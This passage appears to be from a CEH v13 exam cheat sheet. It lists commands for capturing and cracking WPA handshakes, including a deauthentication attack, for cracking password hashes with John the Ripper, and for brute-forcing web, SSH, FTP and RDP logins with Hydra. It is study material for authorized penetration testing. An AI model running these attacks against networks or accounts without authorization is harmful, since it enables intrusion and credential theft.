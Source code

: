 ### WPA handshake capture & crack (quick)
```bash
# capture
airodump-ng -c 6 --bssid <AP_BSSID> -w capture wlan0mon

# deauth to speed handshake
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT> wlan0mon

# crack
aircrack-ng capture-01.cap -w wordlist.txt -b <AP_BSSID>
```

---

## 🔨 Additional Critical CEH v13 Tools

### John the Ripper - Password Cracking
```bash
# Basic wordlist attack
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Show cracked passwords
john --show hashes.txt

# Incremental mode (brute force)
john --incremental hashes.txt

# Format-specific cracking
john --format=NT hashes.txt --wordlist=wordlist.txt

# Custom rules
john --rules --wordlist=wordlist.txt hashes.txt
```

### Hydra - Network Login Cracker
```bash
# HTTP POST form brute force
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

# SSH brute force
hydra -L users.txt -P passwords.txt ssh://192.168.1.100

# FTP brute force
hydra -l ftp -P passwords.txt ftp://192.168.1.100

# RDP brute force
hydra -L users.txt -P passwords.txt rdp://192.168.1.100

# Key switches:
# -l username (single)
# -L userlist (file)
# -p password (single)  
# -P passlist (file)
# -t threads
# -V verbose
```
